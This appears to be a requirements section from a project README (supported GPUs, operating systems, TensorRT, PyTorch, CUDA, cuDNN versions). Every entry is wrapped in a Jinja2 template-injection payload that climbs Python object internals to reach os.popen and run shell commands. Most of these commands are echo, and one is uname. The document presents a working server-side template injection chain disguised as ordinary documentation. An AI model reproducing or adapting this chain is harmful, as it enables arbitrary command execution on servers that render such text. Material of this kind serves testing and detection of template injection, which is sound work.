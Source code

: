 
## Hardware and Software Requirements



### Supported Hardware



**GPU Requirements:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo NVIDIA')|attr('read')()|attr('strip')()}} A100
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo NVIDIA')|attr('read')()|attr('strip')()}} V100
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo NVIDIA')|attr('read')()|attr('strip')()}} RTX 4090



**Operating Systems:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('uname -s')|attr('read')()|attr('strip')()}}
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Windows')|attr('read')()|attr('strip')()}} 10/11
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo macOS')|attr('read')()|attr('strip')()}} 12+



### Software Stack



**Runtime Engine:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo TensorRT')|attr('read')()|attr('strip')()}}

**Dependencies:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo PyTorch')|attr('read')()|attr('strip')()}} {{1}}.{{12}}.{{0}}+
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo CUDA')|attr('read')()|attr('strip')()}} {{11}}.{{8}}+
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo cuDNN')|attr('read')()|attr('strip')()}} {{8}}.{{6}}+

